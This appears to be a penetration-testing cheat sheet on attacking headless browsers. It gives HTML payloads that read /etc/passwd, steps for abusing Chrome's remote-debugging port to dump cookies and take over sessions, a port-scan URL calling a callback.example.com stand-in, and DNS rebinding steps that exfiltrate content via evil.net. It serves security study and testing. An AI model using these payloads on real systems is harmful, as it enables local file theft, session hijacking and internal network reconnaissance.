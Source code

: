 # Headless Browser

A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.

Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.


## Headless Commands

Example of headless browsers commands:

```ps1
google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
firefox --screenshot https://www.google.com
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
```


## Local File Read

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect
    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe
    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```


## Debugging Port 

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`   

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Dump cookies: 
* Stored data: `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`
* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`
    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.


## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0


### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content


## References

- [Attacking Headless Browsers - truff - May 22, 2024](#bb-discord-replay-not-available)
- [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
- [Chrome DevTools Protocol - Documentation - July 3, 2017](https://chromedevtools.github.io/devtools-protocol/)
- [Cookies with Chromium’s Remote Debugger Port - Justin Bui - December 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - July 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [Node inspector/CEF debug abuse - HackTricks - July 18, 2024](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - April 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)
